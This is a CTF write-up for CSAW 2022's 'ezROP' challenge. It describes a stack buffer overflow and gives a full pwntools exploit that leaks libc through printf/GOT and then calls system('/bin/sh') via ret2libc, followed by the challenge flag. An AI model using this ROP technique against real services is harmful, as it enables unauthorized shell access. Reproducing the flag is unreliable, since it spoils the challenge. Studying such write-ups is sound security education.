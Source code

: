 ```yaml
---
title: "[Pwn] ezROP [CSAW CTF Qual 2022]"
date: 2022-09-11 16:35:00
---
```


# 0x0 Introduction

This is a simple buffer overflow challenge, but I wrote it in a reversed way :)

nc pwn.chal.csaw.io 5002

Files: [share.zip](share.zip)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerability

We have a 0x9c byte buffer overflow in `vuln()`. 

With no PIE and noe canary, we have direct control to RIP. 

Therefore, make a ROP chain to leak libc address, then perform a ret2libc to get a shell.

# 0x3 Exploit

```python
from pwn import *

exe = ELF("ezROP")
exe_rop = ROP(exe)
# libc = ELF("libc6_2.31-0ubuntu9.7_amd64.so")
libc = ELF("libc6_2.31-0ubuntu9.9_amd64.so")

# ld = ELF("./ld-2.27.so")

context.binary = exe
# context.log_level = 'DEBUG'

def log_print(*msg):
    log.info(" ".join(map(str,msg)))
lp = log_print
def start():
    if args.LOCAL:
        r = process([exe.path])
        if args.R2:
            input("Wait r2 attach")
    else:
        r = remote("pwn.chal.csaw.io", 5002)
    return r

ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = 0x00000000004015a3
pop_rsi_r14_ret_addr = 0x00000000004015a1

io = start()
io.sendafter(b"name?\n",flat({
    0: b'\n',
    8: b'AAAAAAAA',
    0x70+0x8: [
        ret_addr,
        pop_rdi_ret_addr,
        exe.got["printf"],
        exe.plt["printf"],
        ret_addr,
        exe.sym["main"]
    ]
}))
io.recvuntil(b"22!\n")
libc.address = int.from_bytes(io.recvuntil(b"My",drop=True),"little") - libc.sym["printf"]
print(hex(libc.address))
io.sendafter(b"name?\n",flat({
    0: b'\n',
    8: b'AAAAAAAA',
    0x70+0x8: [
        ret_addr,
        pop_rdi_ret_addr,
        next(libc.search(b"/bin/sh")),
        libc.sym["system"],
    ]
}))
io.interactive()
```


# 0x4 Flag

`flag{53bb4218b851affb894fad151652dc333a024990454a0ee32921509a33ebbeb4}`